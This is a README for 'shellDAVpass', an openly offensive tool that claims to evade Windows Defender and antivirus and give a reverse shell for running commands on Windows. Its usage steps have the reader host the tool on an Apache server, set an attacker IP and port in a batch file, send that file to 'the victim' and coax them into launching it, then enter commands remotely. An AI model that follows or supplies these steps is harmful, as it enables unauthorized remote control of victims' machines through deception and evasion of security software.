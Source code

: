 # shellDAVpass
shellDAVpass application is the Open-Source project, the main idea of which is to bypass the defender and AntiVirus detections to conduct a non interactive reverse shell to execute the Windows commands

Usage example:
--------------
```
1. Start your HTTP server. For APACHE inder Debian (Ubuntu/Kali):
  systemctl start apache2.service 
2. The default port is 80. You are free to change it by editing /etc/apache2/ports.conf
  Listen 80
3. cd /var/www/html
4. git clone https://github.com/IvanGlinkin/shellDAVpass.git
5. chown -R www-data: shellDAVpass
6. cd shellDAVpass
7. nano shellDAVpass.bat
8. Change the IP-address and Port
  SET IPADDRESS=10.211.55.11
  SET PORT=80
9. Save the changings (by pressing CTRL+O and Enter. To exit, press CTRL+X)
10. !!! Send the shellDAVpass.bat to the victim and courage him/her to launch the file !!!
11. Launch the command prompt
  bash shellDAVpass.sh
12. Enter your commands
```
An original article:
--------------------
[https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/](https://www.ivanglinkin.com/shelldavpass-non-interactive-reverse-shell-to-bypass-the-defender-and-antivirus-detections/)

Video example:
--------------
![](https://www.ivanglinkin.com/wp-content/uploads/2021/12/AutoSUID_Video.gif)

Screenshots:
------------
![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-001.png)
![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-002.png)
![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-003.png)
![](https://www.ivanglinkin.com/wp-content/uploads/2022/06/shellDAVshell-logo1.png)
